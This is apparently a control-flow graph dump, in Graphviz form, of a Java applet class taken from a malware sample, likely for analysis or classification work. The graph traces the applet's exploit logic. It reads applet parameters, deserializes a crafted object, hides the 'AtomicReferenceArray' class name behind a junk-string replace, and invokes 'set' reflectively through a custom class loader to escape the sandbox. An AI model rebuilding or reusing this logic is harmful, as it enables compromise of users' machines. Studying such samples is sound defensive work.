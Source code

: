 digraph "" {
    "r0 := @this: robbod"
    "new java.io.ByteArrayInputStream"
    "r0 := @this: robbod"->"new java.io.ByteArrayInputStream";
    "store.r r3"
    "new java.io.ByteArrayInputStream"->"store.r r3";
    "load.r r3"
    "store.r r3"->"load.r r3";
    "load.r r0"
    "load.r r3"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"nun\""
    "load.r r0"->"push \"nun\"";
    "virtualinvoke <robbod: java.lang.String getParameter(java.lang.String)>"
    "push \"nun\""->"virtualinvoke <robbod: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <robbod: java.lang.String getParameter(java.lang.String)>"->"load.r r0";
    "push \"lab\""
    "load.r r0"->"push \"lab\"";
    "push \"lab\""->"virtualinvoke <robbod: java.lang.String getParameter(java.lang.String)>";
    "push \"@\""
    "virtualinvoke <robbod: java.lang.String getParameter(java.lang.String)>"->"push \"@\"";
    "virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>"
    "push \"@\""->"virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>";
    "staticput <robbod: java.lang.String[] aal>"
    "virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>"->"staticput <robbod: java.lang.String[] aal>";
    "virtualinvoke <robbod: byte[] red(java.lang.String)>"
    "staticput <robbod: java.lang.String[] aal>"->"virtualinvoke <robbod: byte[] red(java.lang.String)>";
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"
    "virtualinvoke <robbod: byte[] red(java.lang.String)>"->"specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>";
    "new java.io.ObjectInputStream"
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"->"new java.io.ObjectInputStream";
    "dup1.r"
    "new java.io.ObjectInputStream"->"dup1.r";
    "dup1.r"->"load.r r3";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"
    "load.r r3"->"specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>";
    "staticinvoke <ids: java.lang.Object sen(java.io.ObjectInputStream)>"
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"->"staticinvoke <ids: java.lang.Object sen(java.io.ObjectInputStream)>";
    "checkcast"
    "staticinvoke <ids: java.lang.Object sen(java.io.ObjectInputStream)>"->"checkcast";
    "checkcast"->"checkcast";
    "checkcast"->"dup1.r";
    "push 0"
    "dup1.r"->"push 0";
    "arrayread.r"
    "push 0"->"arrayread.r";
    "arrayread.r"->"checkcast";
    "checkcast"->"checkcast";
    "checkcast"->"store.r r3";
    "store.r r3"->"load.r r0";
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"
    "load.r r0"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "staticinvoke <ids: java.lang.ClassLoader lav(java.lang.Class)>"
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"staticinvoke <ids: java.lang.ClassLoader lav(java.lang.Class)>";
    "store.r r0"
    "staticinvoke <ids: java.lang.ClassLoader lav(java.lang.Class)>"->"store.r r0";
    "push \"java.util.coQN#Bv5tn222tferenceArray\""
    "store.r r0"->"push \"java.util.coQN#Bv5tn222tferenceArray\"";
    "push \"QN#Bv5tn222t\""
    "push \"java.util.coQN#Bv5tn222tferenceArray\""->"push \"QN#Bv5tn222t\"";
    "push \"ncurrent.atomic.AtomicRe\""
    "push \"QN#Bv5tn222t\""->"push \"ncurrent.atomic.AtomicRe\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"ncurrent.atomic.AtomicRe\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "store.r r6"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"store.r r6";
    "push 1"
    "store.r r6"->"push 1";
    "push 1"->"arrayread.r";
    "store.r $r20"
    "arrayread.r"->"store.r $r20";
    "push 2"
    "store.r $r20"->"push 2";
    "newarray"
    "push 2"->"newarray";
    "store.r $r17"
    "newarray"->"store.r $r17";
    "load.r $r17"
    "store.r $r17"->"load.r $r17";
    "load.r $r17"->"push 0";
    "staticget <java.lang.Integer: java.lang.Class TYPE>"
    "push 0"->"staticget <java.lang.Integer: java.lang.Class TYPE>";
    "arraywrite.r"
    "staticget <java.lang.Integer: java.lang.Class TYPE>"->"arraywrite.r";
    "arraywrite.r"->"load.r $r17";
    "load.r $r17"->"push 1";
    "push class \"Ljava/lang/Object;\""
    "push 1"->"push class \"Ljava/lang/Object;\"";
    "push class \"Ljava/lang/Object;\""->"arraywrite.r";
    "arraywrite.r"->"push 2";
    "push 2"->"newarray";
    "store.r $r19"
    "newarray"->"store.r $r19";
    "load.r $r19"
    "store.r $r19"->"load.r $r19";
    "load.r $r19"->"push 0";
    "push 0"->"push 0";
    "staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>"
    "push 0"->"staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>";
    "staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>"->"arraywrite.r";
    "arraywrite.r"->"load.r $r19";
    "load.r $r19"->"push 1";
    "push 1"->"load.r r0";
    "load.r r0"->"arraywrite.r";
    "load.r r6"
    "arraywrite.r"->"load.r r6";
    "push \"set\""
    "load.r r6"->"push \"set\"";
    "load.r $r20"
    "push \"set\""->"load.r $r20";
    "load.r $r20"->"load.r $r17";
    "load.r $r17"->"load.r $r19";
    "staticinvoke <robbod: java.lang.Object vim(java.lang.String,java.lang.String,java.lang.Object,java.lang.Class[],java.lang.Object[])>"
    "load.r $r19"->"staticinvoke <robbod: java.lang.Object vim(java.lang.String,java.lang.String,java.lang.Object,java.lang.Class[],java.lang.Object[])>";
    "pop"
    "staticinvoke <robbod: java.lang.Object vim(java.lang.String,java.lang.String,java.lang.Object,java.lang.Class[],java.lang.Object[])>"->"pop";
    "pop"->"load.r r3";
    "load.r r3"->"push 0";
    "push 0"->"arrayread.r";
    "staticinvoke <ids: void owe(ids)>"
    "arrayread.r"->"staticinvoke <ids: void owe(ids)>";
    "goto return"
    "staticinvoke <ids: void owe(ids)>"->"goto return";
    "return"
    "goto return"->"return";
    "staticinvoke <ids: void owe(ids)>"->"store.r r0";
}
